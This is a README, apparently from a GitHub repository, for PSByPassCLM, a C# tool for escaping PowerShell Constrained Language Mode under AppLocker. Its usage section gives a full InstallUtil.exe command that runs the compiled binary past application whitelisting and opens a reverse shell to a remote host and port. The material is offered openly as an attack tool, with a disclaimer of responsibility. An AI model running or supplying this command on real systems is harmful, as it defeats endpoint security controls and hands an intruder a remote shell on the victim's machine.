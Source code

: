 # PSByPassCLM
Bypass for PowerShell Constrained Language Mode

## Description and references 
This technique might come in handy wherever or whenever you're stuck in a low privilege PS console  
and PowerShell Version 2 engine is not available to perform a [PowerShell Downgrade Attacks](http://www.leeholmes.com/blog/2017/03/17/detecting-and-preventing-powershell-downgrade-attacks/).

What described above may happen in [modern] Windows OSes (like Windows 10, Windows Server 2016..),  
that nowdays are shipped out with AppLocker and PowerShell Version 5 (v5).

With AppLocker in Allow mode and PowerShell running in Constrained Mode, it is not possible for an attacker  
to change the PowerShell language mode to full in order to run attack tools.  
Imho, not beeing able to use core language functionalities (eg, load script in memory and so on..) it's a such a pain.

"PowerShell v5 detects when AppLocker Allow mode is in effect and sets the PowerShell language to Constrained Mode,  
severely limiting the attack surface on the system.  
With AppLocker in Allow mode and PowerShell running in Constrained Mode, it is not possible for an attacker  
to change the PowerShell language mode to full in order to run attack tools." [[Source]](https://adsecurity.org/?p=2604)
 
## Build the binary
The project is written in C#. All the source (few lines of codes though) is committed: .csproj, .sln ...
You should be able to easily compile and build the binary with the default configuration Debug/X64.

## Usage
Well, nothing new here as we're going to use the old and well-known trick of "InstallUtil.exe" to bypass execution of exe.
Once you've compiled the binary, issue the below command on the target host.

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```


## Author
This code is developed by Chris D. (@padovah4ck)[twitter](https://twitter.com/padovah4ck)  
Use it at your own risk. No responsability on my side
